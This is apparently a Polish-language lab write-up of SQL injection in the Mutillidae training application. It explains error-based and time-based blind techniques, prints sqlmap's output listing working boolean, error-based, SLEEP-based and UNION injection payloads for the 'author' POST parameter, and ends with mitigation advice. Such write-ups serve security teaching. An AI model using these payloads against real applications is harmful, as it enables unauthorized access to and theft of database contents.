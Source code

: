 ## Nazwa podatności: SQLMAP Practice (SQL Injcetion - error-based oraz time-based blind)

**Istotność:** Wysoka

---

**Opis:**
SQLMap to potężne narzędzie do automatycznego wykrywania i wykorzystywania podatności SQL Injection w aplikacjach internetowych. Jest napisane w języku Python i umożliwia atakującemu przeprowadzenie zautomatyzowanych testów penetracyjnych, identyfikując luki w zabezpieczeniach aplikacji, które mogą prowadzić do wstrzykiwania kodu SQL.

- SQL Injection - error-based:
W tej technice atakujący wykorzystuje błędy generowane przez bazę danych w odpowiedzi na wstrzyknięty złośliwy kod SQL. Atakujący wprowadza manipulujące zapytanie SQL dane, które mogą prowadzić do błędów w bazie danych. Następnie, poprzez analizę odpowiedzi serwera, atakujący jest w stanie uzyskać informacje na temat struktury bazy danych oraz jej zawartości. Na przykład, atakujący może próbować wstrzyknąć zapytanie takie jak SELECT * FROM users WHERE id = '1' AND '1'='1', które zawsze zwraca prawdę, ale prowadzi do błędu, jeśli typ danych jest nieprawidłowy. Analizując komunikaty o błędach, atakujący może wydedukować strukturę bazy danych i uzyskać dostęp do poufnych informacji.

- SQL Injection - time-based blind:
Ta technika jest używana, gdy aplikacja nie zwraca bezpośrednich komunikatów o błędach, ale atakujący jest w stanie dedukować informacje na temat bazy danych poprzez manipulowanie czasem odpowiedzi serwera. Atakujący wstrzykuje złośliwy kod SQL, który opóźnia odpowiedź serwera w zależności od prawdziwości określonego warunku. Na przykład, atakujący może wstrzyknąć zapytanie takie jak SELECT * FROM users WHERE id = '1' AND IF(SUBSTRING(database(),1,1)='a',SLEEP(5),1) - jeśli pierwszy znak nazwy bazy danych to 'a', to zapytanie spowoduje opóźnienie odpowiedzi serwera. Analizując czas odpowiedzi, atakujący jest w stanie wnioskować informacje na temat struktury bazy danych i jej zawartości.

---

**Technika eksploatacji:**
Po wybraniu z listy rozwijanej użytkownika, którego blog chce się zobaczyć wysyłane jest poniższe zapytanie POST na serwer:
![image](https://github.com/GrzechuG/PWR-CBE-BAW-mutillidae-2024/assets/28838004/5e298ba7-8a60-47bc-ab5a-d2da964b306b)

Utworzono plik request.txt z zawartością powyższego zapytania.
![image](https://github.com/GrzechuG/PWR-CBE-BAW-mutillidae-2024/assets/28838004/d430c661-7a72-42cf-8d33-dc39255b3728)

Atakowanymi parametrami są oraz `author` oraz `view-someones-blog-php-submit-button`.

Jak poniżej uruchomiono narzędzie sqlmap:
![image](https://github.com/GrzechuG/PWR-CBE-BAW-mutillidae-2024/assets/28838004/163e2db8-bdf8-48d3-9057-1086ed0c81ca)

Wykryło ono, iż parametr `author` jest podatnym parametrem. Ostatecznym wynikiem działania programu sqlmap jest:
```sqlmap identified the following injection point(s) with a total of 83 HTTP(s) requests:
---
Parameter: author (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: author=admin' AND 2783=2783#&view-someones-blog-php-submit-button=View Blog Entries

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: author=admin' AND (SELECT 9586 FROM(SELECT COUNT(*),CONCAT(0x7176717671,(SELECT (ELT(9586=9586,1))),0x716b706b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- OhCA&view-someones-blog-php-submit-button=View Blog Entries

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: author=admin' AND (SELECT 3065 FROM (SELECT(SLEEP(5)))GkAB)-- URoT&view-someones-blog-php-submit-button=View Blog Entries

    Type: UNION query
    Title: MySQL UNION query (random number) - 4 columns
    Payload: author=admin' UNION ALL SELECT 5318,5318,5318,CONCAT(0x7176717671,0x654b6f75534a4f4a415a596e4169706d436365645a45524d764b5a5078554c415779684b6b744351,0x716b706b71)#&view-someones-blog-php-submit-button=View Blog Entries
---
```
**Mitygacja:**
Aby skutecznie zmitygować podatność SQL Injection, należy wdrożyć zestaw najlepszych praktyk oraz zabezpieczeń. Przede wszystkim, jedną z najskuteczniejszych metod ochrony jest stosowanie przygotowanych zapytań (prepared statements) i zapytań parametryzowanych. Techniki te oddzielają kod SQL od danych wejściowych użytkownika, co uniemożliwia wstrzyknięcie złośliwego kodu SQL. Wszystkie dane wejściowe, zarówno te pochodzące od użytkowników, jak i z innych źródeł, muszą być rygorystycznie walidowane i filtrowane. Akceptować należy tylko dane zgodne z oczekiwanym formatem i odrzucać wszelkie podejrzane lub niespodziewane wartości. Ograniczenie uprawnień użytkowników bazy danych jest kolejnym kluczowym krokiem. Aplikacja powinna korzystać z kont użytkowników bazy danych o minimalnych niezbędnych uprawnieniach, a konta te nie powinny mieć nadmiarowych uprawnień, takich jak możliwość wykonywania operacji administracyjnych. Używanie mechanizmów ORM (Object-Relational Mapping), takich jak Hibernate czy Entity Framework, może pomóc w ochronie przed SQL Injection, ponieważ automatycznie generują bezpieczne zapytania SQL bazując na kodzie aplikacji. Ważne jest także regularne aktualizowanie i łatanie oprogramowania, aby upewnić się, że wszystkie komponenty aplikacji, w tym serwer bazy danych, frameworki i biblioteki, są na bieżąco aktualizowane i zabezpieczane przed znanymi podatnościami. Regularne monitorowanie i logowanie aktywności w bazie danych może pomóc w szybkim wykryciu i reagowaniu na podejrzane działania wskazujące na próby ataków SQL Injection. Dodatkowo, regularne przeprowadzanie testów penetracyjnych oraz audytów bezpieczeństwa pozwala na identyfikację i naprawę potencjalnych luk w zabezpieczeniach, zanim zostaną one wykorzystane przez atakujących. Implementacja tych praktyk i mechanizmów zabezpieczeń pozwala znacząco zredukować ryzyko wystąpienia podatności SQL Injection, chroniąc aplikację oraz jej użytkowników przed potencjalnymi atakami i kompromitacją danych.

